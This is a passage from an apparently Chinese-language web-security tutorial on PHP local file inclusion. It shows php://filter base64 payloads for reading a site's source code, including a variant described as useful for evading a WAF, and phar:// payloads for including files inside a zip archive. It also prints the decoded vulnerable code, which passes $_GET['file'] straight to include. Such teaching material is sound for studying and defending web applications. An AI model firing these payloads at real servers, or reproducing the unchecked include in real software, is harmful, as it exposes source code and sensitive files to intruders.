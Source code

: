 ```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```



通过指定末尾的文件，可以读取经base64加密后的文件源码，之后再base64解码一下就行。虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。
[![img](Untitled.assets/8.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/8.png?raw=true)

```
>>> import base64>>> base64.b64decode("PD9waHAgDQoJJGZpbGUgPSAkX0dFVFsnZmlsZSddOw0KCWluY2x1ZGUgJGZpbGU7DQo/Pg==")b"<?php \r\n\t$file = $_GET['file'];\r\n\tinclude $file;\r\n?>"
```

其他姿势：

```
index.php?file=php://filter/convert.base64-encode/resource=index.php
```



效果跟前面一样，少了read等关键字。在绕过一些waf时也许有用。

### phar://

利用条件：

1. php版本大于等于php5.3.0

姿势：

假设有个文件phpinfo.txt，其内容为``，打包成zip压缩包，如下：
[![img](Untitled.assets/9.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/9.png?raw=true)

指定绝对路径

```
index.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/phpinfo.txt
```



或者使用相对路径（这里test.zip就在当前目录下）

```
index.php?file=phar://test.zip/phpinfo.txt
```
